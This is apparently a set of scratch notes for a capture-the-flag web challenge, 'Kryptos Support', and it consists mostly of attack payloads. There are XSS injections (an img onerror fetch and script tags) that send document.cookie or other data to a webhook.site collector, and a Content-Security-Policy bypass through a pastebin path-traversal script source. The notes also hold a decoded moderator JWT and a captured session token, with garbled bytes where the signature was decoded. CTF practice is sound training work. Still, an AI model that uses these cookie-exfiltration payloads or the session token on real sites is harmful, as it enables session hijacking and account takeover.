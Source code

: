 Kryptos Support****

CHALLENGE INFO
Kryptos Support
The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?


https://webhook.site/6845f454-bd98-4cb7-adf6-2fe0b193531f

<a href="https://webhook.site/6845f454-bd98-4cb7-adf6-2fe0b193531f">Linked</a>


<img 
    src="http://url.to.file.which/not.exist" 
    onerror="fetch(
        'https://webhook.site/6845f454-bd98-4cb7-adf6-2fe0b193531f', {
            method:'POST', 
            body: JSON.stringify({ls})
        }
    );">




<meta http-equiv=Content-Security-Policy
      content="script-src pastebin.com/XYZ/">

<!-- this will execute -->
<script
   src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk">
</script> 


<script>image = new Image(); image.src="https://webhook.site/6845f454-bd98-4cb7-adf6-2fe0b193531f?c="+document.cookie;</script>


<img src="https://webhook.site/6845f454-bd98-4cb7-adf6-2fe0b193531f">
<img src="https://webhook.site/6845f454-bd98-4cb7-adf6-2fe0b193531f?c="+document.cookie>
?c=+document.cookie


{"alg":"HS256","typ":"JWT"}{"username":"moderator","uid":100,"iat":1652555867}=/fSԃfBůϮF}u

	session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1NTU4Njd9.5z0vmmZTvc0W1IMEi5FmQsTFr8-ur7xG4X38wcTx3HU



I have lost my rfid for the vault. My vault serial is 000083921. Please send me a new rfid.
Vault 000076439 requires maintenance.


/api/users/update
